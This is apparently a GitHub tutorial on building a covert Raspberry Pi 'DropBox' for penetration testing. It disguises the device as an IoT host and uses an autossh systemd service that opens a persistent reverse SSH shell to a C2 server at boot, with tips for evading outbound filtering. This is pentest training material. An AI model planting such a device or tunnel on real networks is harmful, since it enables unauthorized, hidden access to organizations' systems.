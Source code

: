 # How to create a simple Pentesting DropBox using a raspberry pi

Why should I use a Raspberry Pi? The main reason is for its small size. It’s possible to hide it in plain sight and easily disguise it as an IoT device on the network.

Another reason is that most companies’ firewalls will block unauthorized access to it. So if one can smuggle a small device onto its network, it’s possible to get a reverse shell and scan the network from somewhere else.
## How to get pass firewall?

The best possible solution is to get the DropBox inside the network to reach back to a C2 (command and control) server. And reach the DropBox from anywhere using the reverse shell through SSH, using the C2 as a passthrough tunnel.

Raspberry -> reverse SSH -> C2 Server <- SSH <- Attacker machine
![Reverse Shell](https://github.com/dlirao4891/DropBox/blob/main/Images/blog.finxter.com-reverseshell-768x432.jpg?raw=true)

## Kali installation 
### Image download and install
Kali can be installed right from the [Raspberry Pi Imager](https://www.raspberrypi.com/software/) or following the guide on [Kali](https://www.kali.org/docs/arm/raspberry-pi-4/) The Process is really easy.

After installing Kali on the Raspberry Pi, SSH into it. You can find its IP address using your router.
```bash
ssh kali@[kali-IP]
```
The default user and password are `kali:kali`

Update and upgrade 
```bash
sudo apt update && sudo apt full-upgrade
```

**After that, change the default password for the `Kali` user.**

### Minor modifications

The whole idea is to hide in plain sight, so some modifications must be made so the DropBox can disguise as an IoT device.

First, change the hostname in two locations: `/etc/hostname` and `/etc/hosts`. 
Here, anything is valid as long as it looks like it belongs to the company. If you can get the scheme of how the devices are named, it can be easily passed off as just another host.

>On `/etc/hostname`, choose the name you want.
>On `/etc/hosts`, use the same name on the line containing the loopback address (`127.0.1.1`).

After this step, the DropBox will mostly look like it’s just another host on the network. Of course, there are situations when the company adopts MAC-address filtering. And This can be a problem.

At this point, the basic configuration is done on the Raspberry Pi. But we will come back to it soon.

---
## C2 settings

A crucial part of this is the Command and Control server. It’s the middle-man in the communication. The DropBox will try to make contact with it, and when the connection is established, the reverse shell will be accessible.

For this, I decided to use a Ubuntu 22.04 LTS on [Linode](www.linode.com). It's just a basic shared CPU with privet IP.
### SSH configuration
On the file `/etc/ssh/sshd_config`, we have to change three lines:

```bash
AllowTcpForwarding yes
GatewayPorts yes
PasswordAuthentication yes
```
This will enable port forwarding and enable authentication using a password.

After changing the lines, just restart the SSH service.
```bash
sudo service ssh restart
```

### User
A new Ubuntu “linode” installation will have only the root user, so we’ll add a new user.
```bash
adduser [username]
```

After this, the **basic** configuration for the C2 will be ready.

> For a real engagement, it’s recommended to strengthen the security of the C2. **This configuration is just for demonstration.**
 
---

## Create the reverse shell tunnel

At this point, we go back to the Raspberry Pi, and the main idea now is to generate a pair of keys (public and private), so the DropBox can authenticate SSH into the C2 server without a password. For this, we will create an `SSH keypair`.
```bash
ssh-keygen
```
Just generate the keypair; there is no need for a password.

Copy the public key to the C2 server
```bash
ssh-copy-id [username]@[CnC-Server-IP]
```
Provide the password for the user.

After this, it’s not necessary to enter a password to connect to the server.
```bash
ssh [username]@[CnC-Server-IP]
```

### AutoSSH

Install `AutoSSH`. For more info about it see [SSH tunnelling for fun and profit: Autossh (everythingcli.org)](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/)

```bash
apt install autossh -y
```

The idea is to automate the SSH tunnel. So when the DropBox is turned on and is plugged into a network, it will automatically connect to the C2, and the reverse shell will be on.

After the installation is complete, we should create a service, so the autossh will start automatically. To create the service, first create the file `/etc/systemd/system/[Some_Cool_Service_Name].service` and add the following to it:
```bash
[Unit]
 Description=/etc/[Same_Cool_Sevice_Name] Compatibility
 ConditionPathExists=/etc/[Same_Cool_Sevice_Name]
[Service]
 Type=forking
 ExecStart=/etc/[Same_Cool_Sevice_Name] start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

And then the next file `/etc/[Same_Cool_Sevice_Name]`. Add the following:
```bash
#!/bin/bash -e
autossh -M 0 -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 6969:localhost:22 -i /home/kali/.ssh/id_rsa [kali]@[CnC-Server-IP] &
exit 0
```

- The `-M` is the monitoring port. autossh will send test data to check if it is still connected to the server. The autossh manual suggests using `ServerAliveInterval` and `ServerAliveCountMax` on recent versions of OpenSSH. But the monitoring port can be turned off using the value 0.
- The `-f` causes `autossh` to drop to the background before running `ssh`.
- The `-N` tag is for not executing a remote command. 
- Tag `-o` is to specify the options.
- The `-R` option is used to set the remote port. In this case, the Dropbox will be accessible on port 6969. If the organization has strict outbound filtering policies, a good option for this is port 443.
- The `-i` sets the location from where `ssh` will find the privet key.
- And the `&` is to prevent the DropBox to hang at boot.

Make `/etc/[Same_Cool_Sevice_Name]` executable:
```bash
chmod +x /etc/[Same_Cool_Sevice_Name]
```

Enable `[Same_Cool_Sevice_Name].service`

```bash
systemctl enable [Same_Cool_Sevice_Name]
systemctl start [Same_Cool_Sevice_Name].service
```

## Test connection

After plugging the DropBox into a test network, you can check the SSH connection by logging in first from the C2 server:

```bash
ssh kali@localhost -p 6969
```
Enter the password for the `kali` user. Note that the port must be the same one that was set on `autossh`.

Next, you can log in from any other place:

```bash
ssh kali@[CnC-Server-IP] -p 6969
```
